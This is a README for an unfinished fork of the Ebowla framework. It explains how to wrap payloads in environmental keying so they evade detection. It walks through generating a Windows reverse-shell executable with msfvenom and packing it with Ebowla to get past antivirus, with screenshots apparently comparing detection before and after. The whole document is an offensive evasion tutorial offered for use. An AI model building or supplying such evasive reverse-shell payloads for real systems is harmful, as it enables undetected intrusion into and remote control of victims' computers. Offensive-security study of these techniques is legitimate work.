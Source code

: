 # Ebowla Fork to add Python3 Support
## project is currently ongoing, so obviously not everything works (honestly nothing really works)

buuuuuut if the output type is set to GO in the generic config, all compatible payload types will work (we think... maybe)

# ABOUT EBOWLA AND HOW TO USE IT
## framework for building environmental keyed payloads

### Get EBOWLA

```git clone https://github.com/Genetic-Malware/Ebowla```

```cd Ebowla```

### edit generic.config:

change:

output_type = GO

payload_type = EXE

Set at least one environment variable (computername = hostname),
the name has to be exact, as Ebowla won't decrypt otherwise.

### make payload

Make, as an example, a reverse shell payload with metersploit: 

```msfvenom -p windows/x64/shell_reverse_tcp LHOST= LPORT= -f exe -a x64 -o shell.exe```

### build executable with Ebowla

```python2 ebowla.py shell.exe genetic.config```

![](https://raw.githubusercontent.com/ohoph/cheatsheats/master/ebowla/images/2019-12-13_09-42.png?token=ANDZTD52FKYQIOMKV3RBKUC56NLDI)

```./build_x64_go.sh output/<outputfilefromfirststeps> <finalfilename>```

![](https://raw.githubusercontent.com/ohoph/cheatsheats/master/ebowla/images/2019-12-13_09-47.png?token=ANDZTDZ4WQD7BAUW45VQUWK56NLHO)

The finished, packed executable can be found in the **output** folder.

### Results!

### without Ebowla

![](https://raw.githubusercontent.com/ohoph/cheatsheats/master/ebowla/images/2019-12-13_09-50.png?token=ANDZTD3RLAGGH5XC3FN3A2S56NLMI)

### same executable with the use of Ebowla

![](https://raw.githubusercontent.com/ohoph/cheatsheats/master/ebowla/images/2019-12-13_09-52.png?token=ANDZTD3BMQF7CAHDMEHEVZC56NLMQ)
